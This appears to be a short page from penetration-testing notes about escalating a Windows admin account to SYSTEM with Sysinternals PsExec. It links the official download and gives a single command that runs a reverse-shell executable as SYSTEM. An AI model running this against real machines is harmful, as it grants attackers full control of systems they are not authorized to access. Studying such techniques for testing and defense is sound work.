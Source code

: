 # PSEXEC (admin to system)

## <mark style="color:red;">PSEXEC.exe</mark>

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```
PsExec64.exe -accepteula -i -s reverse_shell.exe
```

